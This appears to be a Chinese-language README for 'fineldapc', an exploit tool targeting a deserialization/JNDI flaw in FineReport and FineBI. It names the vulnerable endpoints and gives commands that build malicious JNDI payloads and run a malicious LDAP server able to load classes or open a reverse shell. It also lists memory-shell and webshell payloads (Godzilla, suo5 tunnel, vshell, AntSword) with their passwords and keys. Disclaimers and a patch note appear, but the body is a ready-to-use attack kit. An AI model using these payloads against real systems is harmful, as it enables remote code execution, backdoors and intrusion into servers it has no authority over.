









### fineldapc

```shell
  ▄████████  ▄█  ███▄▄▄▄      ▄████████  ▄█       ████████▄     ▄████████    ▄███████▄  ▄████████
  ███    ███ ███  ███▀▀▀██▄   ███    ███ ███       ███   ▀███   ███    ███   ███    ███ ███    ███
  ███    █▀  ███▌ ███   ███   ███    █▀  ███       ███    ███   ███    ███   ███    ███ ███    █▀
 ▄███▄▄▄     ███▌ ███   ███  ▄███▄▄▄     ███       ███    ███   ███    ███   ███    ███ ███
▀▀███▀▀▀     ███▌ ███   ███ ▀▀███▀▀▀     ███       ███    ███ ▀███████████ ▀█████████▀  ███
  ███        ███  ███   ███   ███    █▄  ███       ███    ███   ███    ███   ███        ███    █▄
  ███        ███  ███   ███   ███    ███ ███▌    ▄ ███   ▄███   ███    ███   ███        ███    ███
  ███        █▀    ▀█   █▀    ██████████ █████▄▄██ ████████▀    ███    █▀   ▄████▀      ████████▀
                                         ▀                                      power by unam4

漏洞路径: /webroot/decision/remote/design/channel

加载jsp依赖： /webroot/decision/file?path=org.apache.jasper.servlet.JasperInitializer&type=class

获取版本: /webroot/decision/system/info

生成恶意jndibin：java -jar fineldapc.jar -jndibin  [rmi|ldap]://host:port/obj

开启恶意ldap：java -jar fineldapc.jar -jndibin <port> <CLASS:classname>/<resershell:ip#port>/<FILE:filepath>

生成恶意类加载bin: java -jar fineldapc.jar -loadbin classname

classname: (fineBI都可以使用，finereport请用jsp类型)

tomcatecho (head头 Etags: base64enc(Command))
godzilla_mem    加密器: JAVA_AES_BASE64 密码: Hwtfhlitg 密钥: Loklewkvqbo 请求路径: /* 请求头: User-Agent: Orjuagk
suo5    (suo5 -d -l 0.0.0.0:7788 --auth test:test123 --ua 'Nuexq' -t http(s)://ip:port/webroot/decision)
vshell(agent): 加密器: JAVA_AES_BASE64 密码: Iddzfpe 密钥: Septtdzjura 请求路径: /* 请求头: Referer: Aiskhs 脚本类型: JSP
anstword  类型：jspjs 密码: b
suo5jsp: suo5 -t http://10.211.55.2:8075/webroot/tunnel.jsp
godzillajsp: 加密器: JAVA_AES_BASE64 密码: fine 密钥: ldapc 请求路径: /*

重要: !!!
免责声明 该工具仅用于安全自查检测
由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。
本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。
该工具只授权于企业内部进行问题排查，请勿用于非法用途，请遵守网络安全法，否则后果作者概不负责
```
起恶意ldap 填写端口要加载class，或者 resershell:127.0.0.1#8888 进行反弹shell（win/linux 都行），FILE:filepath 用于返回指定的字节流。

生成bin



开启起ldap服务



攻击



**生产千万不要使用vshell(agent)**














### 原理

https://unam4.github.io/2024/06/23/%E6%9F%90%E6%8A%A5%E8%A1%A8%E6%9C%80%E6%96%B0%E5%8F%8D%E5%BA%8F%E5%88%97%E6%BC%8F%E6%B4%9E/
https://unam4.github.io/2024/06/03/%E6%96%B0jdk%E5%8E%9F%E7%94%9F%E5%85%A5%E5%8F%A3%E5%88%B0jndi/

### 修复
官网确认 2024-05以前版本受到影响，升级之后版本不收此漏洞影响。

### 免责声明
该工具仅用于安全自查检测

由于传播、利用此工具所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。

本人拥有对此工具的修改和解释权。未经网络安全部门及相关部门允许，不得善自使用本工具进行任何攻击活动，不得以任何方式将其用于商业目的。

该工具只授权于企业内部进行问题排查，请勿用于非法用途，请遵守网络安全法，否则后果作者概不负责
